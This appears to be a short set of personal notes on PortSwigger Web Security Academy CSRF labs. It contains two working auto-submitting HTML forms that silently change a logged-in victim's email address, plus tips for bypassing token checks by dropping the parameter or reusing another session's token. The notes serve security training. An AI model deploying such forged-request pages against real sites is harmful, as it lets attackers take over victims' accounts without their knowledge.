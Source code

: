___

Engagement tools / Generate CSRF PoC

Enable the option to include an auto-submit script and click "Regenerate".
# CSRF vulnerability with no defenses

```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a670050040a93f380ec30c9001f00b8.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="dani@gmail.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## CSRF where token validation depends on request method

With POST --> missing parameter CSRF

GET


```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0ab3000303d506d3801d35f700120019.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="dani@gmail.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## CSRF where token validation depends on token being present

Delete the `csrf` parameter entirely and observe that the request is now accepted.

# CSRF where token is not tied to user session

```
Before using CSRF token in request, check it in HTML code and perform a CSRF attack with it.
```